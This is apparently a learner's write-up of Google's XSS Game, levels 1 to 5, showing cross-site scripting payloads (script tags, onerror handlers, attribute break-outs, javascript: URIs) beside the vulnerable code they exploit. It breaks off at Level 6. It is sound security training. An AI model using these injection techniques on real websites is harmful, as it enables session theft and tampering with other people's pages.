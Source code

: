 XSS Challenges
===================

XSS (Cross Side Scripting) Game located at https://xss-game.appspot.com/

Level 1: Hello, world of XSS
----------------

Very straight forward, the begginners XSS, by checking for scripts, they can be injected wherever a user can input information. 
```javascript
<script>alert(1);</script>
```

Level 2: Persistence is key
------------------
This time a basic script tag will not work, however there are other ways to invoke javascript. For instance, you can have an onerror trigger a function when an img is not found.

```javascript
<img src="foo.png" onerror="alert(1)" />
```

Level 3: That sinking feeling...
------------------
This next challenge is a bit more complicated as we can now only modify the URL itself, if we toggle the code on we can see where the hashtag data is processed. The particular line of interest is

```javascript
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

This line directly takes what is passed in the header to append to the img src tag, however we can manipulate the header such that it closes the source tag and creates an onerror attribute.

```
    https://xss-game.appspot.com/level3/frame#4.png' onerror="alert(1)"/>
```

Which will result in this
```javascript
<img src="/static/level3/cloud4.png" onerror="alert(1)">
```

```javascript
function chooseTab(num) {
  // Dynamically load the appropriate image.
  var html = "Image " + parseInt(num) + "<br>";
  html += "<img src='/static/level3/cloud" + num + ".jpg' />";
  $('#tabContent').html(html);

  window.location.hash = num;

  // Select the current tab
  var tabs = document.querySelectorAll('.tab');
  for (var i = 0; i < tabs.length; i++) {
    if (tabs[i].id == "tab" + parseInt(num)) {
      tabs[i].className = "tab active";
      } else {
      tabs[i].className = "tab";
    }
  }

  // Tell parent we've changed the tab
  top.postMessage(self.location.toString(), "*");
}
```
Level 4: Context matters
---------------------------
This  one was a bit more tricky as MVC was implemented to provide some structure, at first I tried a URL like 

```
    https://xss-game.appspot.com/level4/frame?timer=');alert('1
```

However, I eventully realized that the semicolon is not being parsed and if I pass the URL encoding of a semicolon it would work

```
    https://xss-game.appspot.com/level4/frame?timer=')%3Balert('1
```

Which results in this
```javascript
    <img src="/static/loading.gif" onload="startTimer('');alert('1');">
```

```html
<body id="level4">
  <img src="/static/logos/level4.png" />
  <br>
  <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
  <br>
  <div id="message">Your timer will execute in {{ timer }} seconds.</div>
</body>
```

Level 5: Breaking protocol
---------------------------------

At first this problem looks complicated, however it took me much less time now that I know to pass in URL encoded characters. After clicking sign-up, you see a page with a next href. The location to where this href goes to is entirely regulated by next=confirm, so this variable could be manipulated to make the link execute javascript.

```javascript
<a href="{{ next }}">Next >></a>
```

My method was 
```
    https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert(1)
```

Which turned the link to
```html
    <a href="javascript:alert(1)">Next &gt;&gt;</a>
```

Level 6: Follow the
------------------------
